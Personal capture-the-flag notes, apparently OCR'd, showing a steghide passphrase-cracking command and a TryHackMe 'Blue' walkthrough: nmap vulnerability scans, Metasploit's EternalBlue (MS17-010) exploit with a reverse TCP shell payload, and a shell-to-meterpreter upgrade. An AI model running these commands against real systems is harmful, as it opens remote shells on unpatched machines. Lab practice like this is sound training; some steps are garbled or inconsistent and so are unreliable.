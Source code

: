 Crack steghide passphrase using stegracker: Install:

> pip3 install stegcracker

Run:

>python3 -m stegcracker tocrack.jpg

09/02/2024

# 1°
# Walkthroght THM Blue


normal scan:

> nmap -sS -Pn -A -p- -T5 $ip


However in the normal CTF we used this, to find a vulnerability cve: 

> nmap -sS -sV  -sC -A --script vuln <*ip*>

find CVE: ms17-010

> msfconsole

> search ms17-010

> use 0  ....eternalblue exploit

set payload, even if is as default (but as a meterpreter, not shell)

> set payload  windows/x64/shell/reverse_tcp

> set RHOSTS <ip*>

> run

> background


how to upgrade sheels in metasploit:

> search shell_to

use 0 (shell to meterpreter)

> set SESSION 1 

you do this to upgrade the shell that you already have!

example of what happens if you do set SESSION 2 instead of 1
 ![[Pasted image 20240209125133.png]]

> show options (we see it miss our ip)

> set LHOST <our ip*>


> run
